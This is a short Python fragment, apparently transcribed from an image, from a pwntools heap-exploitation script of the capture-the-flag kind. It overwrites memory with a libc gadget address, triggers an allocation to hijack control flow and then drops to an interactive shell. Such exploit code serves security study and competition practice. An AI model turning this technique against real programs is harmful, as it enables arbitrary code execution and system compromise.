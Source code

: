```python
alloc(0x60)


payload = 0x13 * b'a'
payload += p64(libcbase_addr+0x4527a)
fill(6, payload)


alloc(0x10)
p.interactive()
```